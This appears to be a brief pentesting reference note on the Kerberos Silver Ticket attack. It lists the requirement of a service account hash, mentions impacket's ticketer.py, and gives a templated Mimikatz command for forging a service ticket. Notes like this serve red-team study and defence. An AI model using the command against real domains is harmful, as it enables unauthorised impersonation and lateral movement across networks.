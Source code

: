 # Silver Ticket Attack
Requires a service account password or NTLM hash, to forge a TGS. Can be avoided with PAC enabled?

impacket ticketer.py

Requirements:
* Service hash

---

## Create a ticket for the service with Mimikatz
`kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<TARGET/HOST.DOMAIN.FQDN> /rc4:<NTLM_MACHINE> /service:<SERICE>`